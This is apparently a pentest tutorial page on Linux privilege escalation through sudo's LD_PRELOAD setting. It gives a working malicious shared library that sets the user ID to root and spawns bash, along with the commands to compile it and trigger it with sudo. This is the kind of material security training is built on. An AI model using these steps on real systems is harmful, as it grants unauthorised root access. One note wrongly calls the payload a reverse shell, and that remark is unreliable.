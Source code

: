 ```yaml
---
legal-banner: true
---
```


### **Steps to Identify and Exploit LD_PRELOAD**

1.  To check if LD_PRELOAD is enabled, run sudo -l and look for env_keep+=LD_PRELOAD in the output.  
    `sudo -l`  

    ![](../../../img/Linux-Environment/47.png)
    
    ??? info "NOTE:"

        When a program is running, LD_PRELOAD loads a shared object before any others. By writing a simple script with init() function, it will  execute code as soon as the object is loaded.
    
2.  Craft a C file that will act as the malicious shared library. This library should include an initialization function (`_init`) to perform desired actions (e.g., opening a reverse shell, elevating privileges).
    
    ```C
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
    }
    ```
    
    ![](../../../img/Linux-Environment/48.png)

    ??? info "NOTE:"

        This example provides a reverse shell to the attacker's machine.

3.  Compile the Malicious Code  
    `gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`  
    
    ![](../../../img/Linux-Environment/49.png)
    
4.  Execute any binary you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object.  
    `sudo LD_PRELOAD=/tmp/preload.so /usr/bin/man`  
    
    ![](../../../img/Linux-Environment/50.png)